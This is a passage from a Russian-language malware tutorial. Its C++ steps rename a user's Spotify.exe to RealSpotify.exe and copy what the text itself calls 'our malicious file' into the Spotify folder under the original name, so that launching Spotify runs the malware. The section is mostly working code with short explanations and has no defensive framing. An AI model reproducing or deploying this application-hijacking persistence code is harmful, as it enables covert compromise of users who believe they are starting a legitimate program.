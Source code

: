 
4) Логика следующего кода проста. В начале, переименовываем **Spotify.exe** в **RealSpotify.exe**, вызвав [MoveFile](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefile). Потом переименовываем наш вредоносный файл и перемещаем его в папку Spotify, вызвав [CopyFile](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfile). Если все прошло удачно, мы освобождаем ресурсы функцией [RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey).

```cpp
if (GetEnvironmentVariableW(L"APPDATA", wModulePath, WCHAR_MAXPATH) == 0) 
    goto FAILURE; 

wcscat(wModulePath, L"\\Spotify\\Spotify.exe");

if (GetEnvironmentVariableW(L"APPDATA", wNewPath, WCHAR_MAXPATH) == 0)         goto FAILURE;

 wcscat(wNewPath, L"\\Spotify\\RealSpotify.exe"); 

if (!MoveFile(wModulePath, wNewPath))
goto FAILURE; 

ZeroMemory(wModulePath, WCHAR_MAXPATH); 
ZeroMemory(wNewPath, WCHAR_MAXPATH); 

if (GetModuleFileNameW(NULL, wModulePath, WCHAR_MAXPATH) == 0) 
goto FAILURE; 

if (GetEnvironmentVariableW(L"APPDATA", wNewPath, WCHAR_MAXPATH) == 0) goto FAILURE; 

wcscat(wNewPath, L"\\Spotify\\Spotify.exe"); 

if (!CopyFile(wModulePath, wNewPath, TRUE)) 
goto FAILURE; 

if (hKey) RegCloseKey(hKey); 
return ERROR_SUCCESS;
```

5) Если в нашем коде произошла ошибка, мы безопасно выходим, прыгая на метку FAILURE. В ней мы проверяем, валиден ли наш HANDLE. Если да, то мы его закрываем функцией [RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey).

```cpp
FAILURE: 

    dwError = GetLastError(); 

    if (hKey) 
        RegCloseKey(hKey); 

return dwError; 

}
```

